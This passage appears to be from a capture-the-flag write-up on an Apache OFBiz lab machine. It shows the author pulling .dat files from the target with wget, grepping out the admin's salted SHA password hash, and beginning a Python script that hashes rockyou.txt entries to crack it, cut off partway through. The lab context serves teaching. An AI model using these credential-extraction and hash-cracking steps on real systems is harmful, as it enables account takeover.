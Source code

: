 Now, I grab them using `wget` on lhost:

```
-[Wed Feb 28-14:14:44]-[table@parrot]-
-[~]$ wget http://10.10.11.252:8484/dat_files.txt
--2024-02-28 14:15:17--  http://10.10.11.252:8484/dat_files.txt
Connecting to 10.10.11.252:8484... connected.
HTTP request sent, awaiting response... 200 OK
Length: 65917461 (63M) [text/plain]
Saving to: ‘dat_files.txt’

dat_files.txt                   100%[=====================================================>]  62.86M  15.7MB/s    in 5.5s    

2024-02-28 14:15:22 (11.3 MB/s) - ‘dat_files.txt’ saved [65917461/65917461]
```

Now that we have a copy of the `.dat` files on our local host, let's see if we can find anything interesting with `strings`

```
-[Wed Feb 28-14:15:22]-[table@parrot]-
-[~]$ strings dat_files.txt | grep SHA
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

That's it! We found the hashed Admin password. I try to crack it again with `hashcat`. I had no luck cracking the hash, so I had to get yet another hint. The hint was not helpful and I spent many more hours on this.

Eventually, I came across a writeup and I referenced the parts I needed to fuel up and keep moving. I found this GitHub that shows `HashCrypt.java` functions:

{% embed url="https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java" %}

Again, I was stuck so I followed the write-up and used a Python script to encrypt each line in `rockyou.txt` and compare it to the hash:

```
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

```